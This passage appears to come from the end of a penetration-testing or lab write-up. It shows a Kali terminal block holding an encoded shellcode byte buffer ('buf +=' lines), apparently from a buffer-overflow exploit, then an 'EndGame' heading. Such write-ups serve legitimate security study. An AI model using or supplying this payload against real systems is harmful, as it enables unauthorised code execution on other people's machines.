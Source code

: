 ```term_session
buf += b"\x71\x5a\x6f\x54\x4d\x43\x31\x6b\x77\x36\x58\x59\x70"
buf += b"\x70\x75\x68\x76\x66\x63\x71\x6d\x6b\x48\x37\x4b\x51"
buf += b"\x6d\x74\x64\x71\x65\x4b\x54\x31\x48\x6c\x4b\x61\x48"
buf += b"\x45\x74\x73\x31\x6a\x73\x31\x76\x4e\x6b\x66\x6c\x52"
buf += b"\x6b\x4c\x4b\x53\x68\x45\x4c\x63\x31\x7a\x73\x4c\x4b"
buf += b"\x74\x44\x6c\x4b\x65\x51\x78\x50\x4e\x69\x71\x54\x34"
buf += b"\x64\x51\x34\x63\x6b\x33\x6b\x31\x71\x42\x79\x50\x5a"
buf += b"\x36\x31\x4b\x4f\x49\x70\x51\x4f\x31\x4f\x53\x6a\x6c"
buf += b"\x4b\x56\x72\x38\x6b\x6c\x4d\x71\x4d\x61\x7a\x33\x31"
buf += b"\x4c\x4d\x6b\x35\x6e\x52\x57\x70\x77\x70\x75\x50\x66"
buf += b"\x30\x73\x58\x45\x61\x6c\x4b\x62\x4f\x6b\x37\x4b\x4f"
buf += b"\x48\x55\x4f\x4b\x49\x70\x55\x4d\x55\x7a\x47\x7a\x32"
buf += b"\x48\x6e\x46\x6e\x75\x6d\x6d\x6d\x4d\x49\x6f\x38\x55"
buf += b"\x67\x4c\x57\x76\x53\x4c\x66\x6a\x4d\x50\x6b\x4b\x69"
buf += b"\x70\x30\x75\x55\x55\x6f\x4b\x70\x47\x67\x63\x44\x32"
buf += b"\x70\x6f\x30\x6a\x37\x70\x71\x43\x79\x6f\x4e\x35\x42"
buf += b"\x43\x43\x51\x70\x6c\x33\x53\x46\x4e\x43\x55\x61\x68"
buf += b"\x75\x35\x75\x50\x41\x41"
root@kali:~# 
```

# EndGame

![](/assets/img/Findings3/14.png)
